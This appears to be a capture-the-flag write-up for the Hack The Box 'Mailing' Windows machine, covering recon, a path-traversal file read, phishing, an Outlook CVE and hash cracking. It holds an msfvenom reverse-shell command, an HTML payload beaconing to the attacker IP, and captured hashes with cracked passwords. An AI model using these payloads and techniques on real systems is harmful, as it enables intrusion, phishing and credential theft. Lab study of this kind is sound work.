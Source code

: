 # Mailing Write-Up - HTB

## Recon

Starting off with an nmap scan:

```
Nmap scan report for 10.10.11.14
Host is up (0.047s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
143/tcp   open  imap
445/tcp   open  microsoft-ds
465/tcp   open  smtps
587/tcp   open  submission
993/tcp   open  imaps
5040/tcp  open  unknown
5985/tcp  open  wsman
7680/tcp  open  pando-pub
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
51866/tcp open  unknown
```

Let's get a vulnerability overview:

{% code overflow="wrap" %}
```
PORTS=$(grep "open" all_syn.txt | awk -F '/' '{print $1}' | tr '\n' ',' | sed 's/,$//'); sudo nmap -sVC -p $PORTS -Pn -n 10.10.11.14
```
{% endcode %}

```
Nmap scan report for 10.10.11.14
Host is up (0.095s latency).

PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://mailing.htb
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: UIDL TOP USER
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: RIGHTS=texkA0001 IDLE OK CHILDREN completed ACL CAPABILITY NAMESPACE IMAP4 IMAP4rev1 QUOTA SORT
445/tcp   open  microsoft-ds?
465/tcp   open  ssl/smtp      hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
993/tcp   open  ssl/imap      hMailServer imapd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: RIGHTS=texkA0001 IDLE OK CHILDREN completed ACL CAPABILITY NAMESPACE IMAP4 IMAP4rev1 QUOTA SORT
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
51866/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-12T17:41:34
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

Interesting ports: 25 (SMTP), 80 (HTTP), 110 (POP3), 143 (IMAP), 445 (SMB), 587 (SMTP) and possible 5040 and 7680.

I tried some SMTP basic capability enumeration. Navigated to the webpage on 80:

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Checked the instructions and tried to replicate, but this "user" doesn't exist!

The download function is interesting though. In the mean-time I ran feroxbuster too:

```
feroxbuster -u http://mailing.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -k -n -t 100 -d 2 -o ferox_mailing_deep.txt
```

Let's see if we can do LFI through the download.php function!

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

From the ports opened we could see that this is a Windows box, so:

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Sweet! We can LFI!

```
GET /download.php?file=../../../Program%20Files%20(x86)/hMailServer/Bin/hMailServer.ini
```

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

```
841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
```

I managed to get them working on Thunderbird as administrator@mailing.htb.

Now I am sending a malicious exe crafted with msfvenom to support (maya).

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=8888 -f exe -o shell.exe
```

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Hitting send...

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Now we wait...

Realizing that no one opens our attachments, so I tried with direct link in the mail:

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

Although nobody opens the powershell... Let's see, by elimination we need some phish e-mail that will either launch direct revshell through browser, either hmm..

No creds coming back :(

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

It turns out this works:

```
<img src="http://10.10.16.9:8080/capture" style="display:none" onerror="fetch('http://10.10.16.9:9999/backup-capture')">
```

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Using the same idea I could enumerate some ports on the box:

```
2025-05-13 12:36:44,816 Connection established from ('10.10.11.14', 57048)
2025-05-13 12:36:44,996 Received message: {"type":"page_load","url":"http://10.10.16.9:9090/pl2.html","userAgent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0"}
2025-05-13 12:36:45,121 Received message: {"type":"internal_fetch","url":"http://localhost/webmail/inbox","status":"success"}
2025-05-13 12:36:45,121 Received message: {"type":"internal_fetch","url":"http://localhost/admin/dashboard","status":"success"}
2025-05-13 12:36:45,121 Received message: {"type":"internal_fetch","url":"http://localhost/mail/inbox","status":"success"}
2025-05-13 12:36:45,301 connection open
2025-05-13 12:36:45,301 Connection established from ('10.10.11.14', 57056)
2025-05-13 12:36:45,384 Received message: {"type":"page_load","url":"http://10.10.16.9:9090/pl2.html","userAgent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0"}
2025-05-13 12:36:45,426 Received message: {"type":"internal_fetch","url":"http://localhost/mail/inbox","status":"success"}
2025-05-13 12:36:45,426 Received message: {"type":"internal_fetch","url":"http://localhost/webmail/inbox","status":"success"}
2025-05-13 12:36:45,426 Received message: {"type":"internal_fetch","url":"http://localhost/admin/dashboard","status":"success"}
```

I realized this gets too much, it has to be something easier such as an outlook exploit.

Used:&#x20;

```
https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability
```

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Let's use this:

{% code overflow="wrap" %}
```
maya::MAILING:aaaaaaaaaaaaaaaa:d962644057be23cdda4b195e6a4dbc5d:010100000000000000d00af6f1c3db0188f18b06595c382600000000010010005200620054004c0057004e0052005a00030010005200620054004c0057004e0052005a00020010006f004600670049004800580051005500040010006f0046006700490048005800510055000700080000d00af6f1c3db0106000400020000000800300030000000000000000000000000200000402df535e6fdafb6ac31b195d1cd5bc20987b539cedf81a2c3e25113ac36c7810a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e0039000000000000000000
```
{% endcode %}

Cracked with hashcat:

```
maya:m4y4ngs4ri
```

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

